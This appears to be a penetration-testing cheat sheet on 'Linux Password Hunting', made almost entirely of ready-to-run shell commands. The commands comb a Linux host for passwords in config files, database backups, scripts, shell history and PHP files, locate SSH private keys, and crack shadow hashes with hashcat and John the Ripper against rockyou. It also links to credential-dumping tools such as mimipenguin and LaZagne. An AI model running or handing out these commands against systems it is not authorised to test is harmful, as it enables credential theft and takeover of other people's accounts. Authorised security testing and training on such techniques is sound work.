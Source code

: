 ```yaml
---
description: Common Password Attack on Linux Machine
---
```


# Linux Password Hunting

### Config Files Search

{% code overflow="wrap" %}
```bash
for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
```
{% endcode %}

### Credentials in Configuration Files

{% code overflow="wrap" %}
```bash
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
```
{% endcode %}

### Database Backup Search

{% code overflow="wrap" %}
```bash
for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
```
{% endcode %}

### Search Notes/txt Files

{% code overflow="wrap" %}
```bash
find /home/* -type f -name "*.txt"
```
{% endcode %}

### Search Scripts on Linux

{% code overflow="wrap" %}
```bash
for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done
```
{% endcode %}

### Search Cronjob

{% code overflow="wrap" %}
```bash
cat /etc/crontab
ls -la /etc/cron.*/
```
{% endcode %}

### Search SSH Private Key

{% code overflow="wrap" %}
```bash
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
grep -rnw "PRIVATE KEY" /* 2>/dev/null | grep ":1"
```
{% endcode %}

### File History

{% code overflow="wrap" %}
```bash
find / -type f -name "*_history" 2>/dev/null
tail -n5 /home/*/.*_history*
tail -n5 /*/.*_history*
```
{% endcode %}

### Search Password in PHP Files

{% code overflow="wrap" %}
```bash
grep -Rwi "password\|passwd" --include=*.php
```
{% endcode %}

### Cracking Linux Credentials

{% code overflow="wrap" %}
```bash
# unshadow local creds
unshadow passwd.bak shadow.bak > unshadow.hash

# Perform Dictionary Attack
hashcat -m 1800 -a 0 unshadow.hash /usr/share/wordlists/rockyou.txt -o cracked_shadow
# or
john --wordlist=/usr/share/wordlists/rockyou.txt unshadow.hash
```
{% endcode %}

### Tools

* [https://github.com/unode/firefox\_decrypt](https://github.com/unode/firefox\_decrypt)
* [https://github.com/huntergregal/mimipenguin](https://github.com/huntergregal/mimipenguin)
* [https://github.com/AlessandroZ/LaZagne/tree/master/Linux](https://github.com/AlessandroZ/LaZagne/tree/master/Linux)
